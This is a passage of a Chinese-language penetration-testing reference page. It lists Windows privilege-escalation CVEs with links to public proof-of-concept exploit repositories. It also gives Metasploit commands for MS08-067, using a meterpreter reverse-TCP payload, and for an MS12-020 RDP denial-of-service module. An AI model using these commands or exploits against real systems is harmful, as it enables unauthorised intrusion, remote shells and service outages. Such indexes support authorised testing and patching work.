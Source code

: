 - POC | Payload | exp
    - [klinix5/ProfSvcLPE](https://github.com/klinix5/ProfSvcLPE)

**CVE-2021-36934**
- 相关文章
    - [【安全风险通告】CVE-2021-36934Windows 提权漏洞安全风险通告](https://mp.weixin.qq.com/s/i4suHWEp7vua9siUZQSMSg)
    - [Windows 权限提升：HiveNightmare](https://mp.weixin.qq.com/s/HKtaJiVjjX6oAzkajUtsBQ)

- POC | Payload | exp
    - [HuskyHacks/ShadowSteal](https://github.com/HuskyHacks/ShadowSteal)
    - [GossiTheDog/HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)

**CVE-2021-40449**
- 相关文章
    - [CVE-2021-40449](http://ryze-t.com/posts/2021/12/14/CVE-2021-40449.html)

- POC | Payload | exp
    - https://github.com/Al1ex/WindowsElevation/tree/master/CVE-2021-40449

**CVE-2021-41379 && CVE-2021-43883**
- 简述

    Windows Installer 存在权限提升漏洞，该漏洞利用程序通过覆盖 Microsoft Edge 提升服务（elevation_service.exe）DACL，将自身复制到 elevation_service.exe 并执行它以获得提升的权限。本地攻击者可以利用此漏洞获取 SYSTEM 权限。

- POC | Payload | exp
    - [klinix5/InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver)
    - [jbaines-r7/shakeitoff](https://github.com/jbaines-r7/shakeitoff) - Windows MSI Installer LPE (CVE-2021-43883)

**CVE-2022-21882**
- POC | Payload | exp
    - [KaLendsi/CVE-2022-21882](https://github.com/KaLendsi/CVE-2022-21882) - win32k LPE

---

### 远程漏洞

**MS08-067 & CVE-2008-4250**
- MSF 模块
    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set payload windows/x64/meterpreter/reverse_tcp
    set target 0
    ```

**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```

**MS14-066 & CVE-2014-6321**
- POC | Payload | exp
    - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)
